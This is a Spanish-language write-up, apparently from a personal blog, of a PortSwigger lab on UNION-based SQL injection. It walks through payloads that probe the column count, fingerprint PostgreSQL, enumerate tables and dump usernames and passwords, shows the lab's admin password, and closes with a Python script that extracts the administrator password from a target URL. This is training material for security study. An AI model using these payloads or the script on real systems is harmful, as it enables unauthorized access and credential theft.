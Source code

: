 ```yaml
---
title: "05 SQL injection UNION attack, retrieving data from other tables"
collection: publications
category: portswigger
permalink: /publications/SQLi/05_SQL injection UNION attack, retrieving data from other tables
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que recupera los nombres de usuario y las contraseñas de los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection UNION attack, retrieving data from other tables'
---
```


![logo]({{site.url}}/images/SQLi/sqli-5/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-5/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, realice un ataque de inyección SQL UNION que recupere todos los nombres de usuario y contraseñas, y utilice la información para iniciar sesión como usuario `administrator`.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-5/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

![Order by]({{site.url}}/images/SQLi/sqli-5/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--
' UNION SELECT NULL, 'A'--
' UNION SELECT 'A', 'A'--
```

En este caso ambas columnas reciben tipo string

![String]({{site.url}}/images/SQLi/sqli-5/tipo string.png)

## Obtener que tipo de Base de dato es

Es una BD Posgres SQL

```javascript
' UNION SELECT version(), null--
```

![Base de datos]({{site.url}}/images/SQLi/sqli-5/BD.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-5/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'--
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-5/columbas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla

```javascript
' UNION SELECT username, password FROM users--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-5/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
4hve3wc018z7mnlll440
```

![login]({{site.url}}/images/SQLi/sqli-5/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-5/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_users_table(url):
    username = 'administrator'
    path = '/filter?category=Gifts'
    sql_payload = "' UNION select username, password from users--"
    r = requests.get(url + path + sql_payload,  verify=False, proxies=proxies)
    res = r.text
    if "administrator" in res:
        print("[+] Found the administrator password.")
        soup = BeautifulSoup(r.text, 'html.parser')
        admin_password = soup.body.find(text="administrator").parent.findNext('td').contents[0]
        print("[+] The administrator password is '%s'" % admin_password)
        return True
    return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("[+] Dumping the list of usernames and passwords...")
    if not exploit_sqli_users_table(url):
        print("[-] Did not find an administrator password.")
```